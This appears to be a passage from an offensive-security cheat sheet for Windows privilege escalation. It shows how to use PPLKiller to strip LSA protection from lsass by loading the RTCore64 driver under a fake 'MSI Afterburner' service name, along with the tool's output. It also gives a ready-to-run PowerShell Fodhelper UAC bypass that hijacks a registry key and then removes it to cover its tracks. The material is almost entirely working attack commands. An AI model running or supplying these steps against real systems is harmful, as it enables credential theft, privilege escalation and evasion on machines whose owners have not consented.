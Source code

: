 ### LSA Protection

- use PPLKiller https://github.com/RedCursorSecurityConsulting/PPLKiller
1. Open PPLKiller.sln with Visual Studio 2019 and build a Release binary which will be saved in PPLKiller\x64\Release\PPLKiller.exe
2. You'll always want to run `PPLKiller.exe /installDriver` first to install the driver
3. Run an attack like `PPLKiller.exe /disableLSAProtection`
4. Cleanup with `PPLKiller.exe /uninstallDriver`
```powershell
PS C:\users\public\downloads> sc.exe create RTCore64 type= kernel start= auto binPath= c:\users\public\downloads\RTCore64.sys DisplayName= "Micro - Star MSI Afterburner"
net start RTCore64

sc.exe create RTCore64 type= kernel start= auto binPath= c:\users\public\downloads\RTCore64.sys DisplayName= "Micro - Star MSI Afterburner"
[SC] CreateService SUCCESS
PS C:\users\public\downloads> net start RTCore64

The Micro - Star MSI Afterburner service was started successfully.

PS C:\users\public\downloads> Get-Process -Name lsass
Get-Process -Name lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                         
-------  ------    -----      -----     ------     --  -- -----------                                         
   1069      30     5920      17568       1.17    556   0 lsass                                               

PS C:\users\public\downloads> .\pplk /disablePPL 556
.\pplk /disablePPL 556
[*] Device object handle has been obtained
[*] Ntoskrnl base address: FFFFF80535EAD000
[*] PsInitialSystemProcess address: FFFFA78B86461040
[*] Current process address: FFFFA78B89AB3080
PPLKiller version 0.3 by @aceb0nd
[+] Windows Version 1809 Found
```

- https://www.bordergate.co.uk/bypassing-lsa-protections/

## Powershell Fodhelper bypass

```powershell
function FodhelperBypass(){ 
 Param (
           
        [String]$program = "cmd /c start powershell.exe" #default
       )

    #Create registry structure
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force

    #Perform the bypass
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden

    #Remove registry structure
    Start-Sleep 3
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```